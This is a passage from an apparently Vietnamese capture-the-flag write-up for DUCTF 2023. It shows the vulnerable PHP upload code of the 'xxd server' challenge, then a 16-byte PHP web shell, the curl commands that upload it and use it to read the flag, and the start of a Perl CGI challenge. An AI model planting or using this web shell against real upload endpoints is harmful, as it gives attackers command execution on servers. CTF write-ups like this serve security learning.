 ```php
$message = '';

// Is there an upload?
if (isset($_FILES['file-upload'])) {
	$upload_dir = 'uploads/' . bin2hex(random_bytes(8));
	$upload_path = $upload_dir . '/' . basename($_FILES['file-upload']['name']);
	mkdir($upload_dir);
	$upload_contents = xxd(file_get_contents($_FILES['file-upload']['tmp_name']));
	if (file_put_contents($upload_path, $upload_contents)) {
		$message = 'Your file has been uploaded. Click <a href="' . htmlspecialchars($upload_path) . '">here</a> to view';
	} else {
	    $message = 'File upload failed.';
	}
}

?>
```

File được upload lên sẽ bị cắt từng 16 ký tự để in ra xxd, đuôi file giữ nguyên do đó ta chỉ cần payload nào nhỏ hơn hoặc bằng 16 ký tự là được:

```sh
pwn@DESKTOP-AC6UABE:pts/0->/home/pwn (1)
> echo '<?=`$_GET[0]`;?>'>pwn.php
pwn@DESKTOP-AC6UABE:pts/0->/home/pwn (0)
> cat pwn.php
<?=`$_GET[0]`;?>
pwn@DESKTOP-AC6UABE:pts/0->/home/pwn (0)
> curl https://web-xxd-server-2680de9c070f.2023.ductf.dev/ -F 'file-upload=@./pwn.php'
pwn@DESKTOP-AC6UABE:pts/0->/home/pwn (0)
> curl https://web-xxd-server-2680de9c070f.2023.ductf.dev/uploads/a09b7e9c7bbf7d50/pwn.php\?0\=cat+/
flag
00000000: 3c3f 3d60 245f 4745 545b 305d 603b 3f3e  DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}00000010: 0a
```

## CGI Fridays

Câu này sử dụng `CGI::Minimal` để xử lý request.

```pl
#!/usr/bin/env perl

use strict;
use warnings;
use CGI::Minimal;

use constant HTDOCS => '/usr/local/apache2/htdocs';

sub read_file {
	my ($file_path) = @_;
	my $fh;

	local $/;
	open($fh, "<", $file_path) or return "read_file error: $!";
	my $content = <$fh>;
	close($fh);

	return $content;
}

sub route_request {
	my ($page, $remote_addr) = @_;
```